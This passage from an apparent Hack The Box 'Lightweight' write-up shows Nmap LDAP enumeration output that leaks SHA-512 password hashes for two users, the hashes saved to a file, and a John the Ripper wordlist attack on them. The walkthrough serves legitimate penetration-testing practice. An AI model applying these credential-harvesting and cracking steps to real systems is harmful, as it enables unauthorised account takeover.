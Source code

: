 ```text
|         objectClass: shadowAccount
|         userPassword: {crypt}$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1
|         shadowLastChange: 17691
|         shadowMin: 0
|         shadowMax: 99999
|         shadowWarning: 7
|         loginShell: /bin/bash
|         uidNumber: 1001
|         gidNumber: 1001
|         homeDirectory: /home/ldapuser2
|     dn: cn=ldapuser1,ou=Group,dc=lightweight,dc=htb
|         objectClass: posixGroup
|         objectClass: top
|         cn: ldapuser1
|         userPassword: {crypt}x
|         gidNumber: 1000
|     dn: cn=ldapuser2,ou=Group,dc=lightweight,dc=htb
|         objectClass: posixGroup
|         objectClass: top
|         cn: ldapuser2
|         userPassword: {crypt}x
|_        gidNumber: 1001Nmap done: 1 IP address (1 host up) scanned in 1.26 seconds
```

The script found hashed passwords for both _ldapuser1_ and _ldapuser2_. Let’s save both hashes in a file called _hashes.txt_.

```text
$6$3qx0SD9x$Q9y1lyQaFKpxqkGqKAjLOWd33Nwdhj.l4MzV7vTnfkE/g/Z/7N5ZbdEQWfup2lSdASImHtQFh6zMo41ZA./44/
$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1
```

Then run John on the hashes.

```text
root@kali:~/Desktop/htb/lightweight# john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

John identifies the hashes to be SHA512, so it’ll probably take a while to crack these hashes. In the meantime, let’s look for an alternative way to get access to these user accounts.

**Note:** The ****Extra Content __section at the end of this blog explains how to enumerate LDAP manually without having to use the NSE script.

## Initial Foothold <a id="0e62"></a>

Let’s go back to our SSH session and see if there are any security misconfigurations that allow us to escalate privileges to _ldapuser1_ or _ldapuser2_.
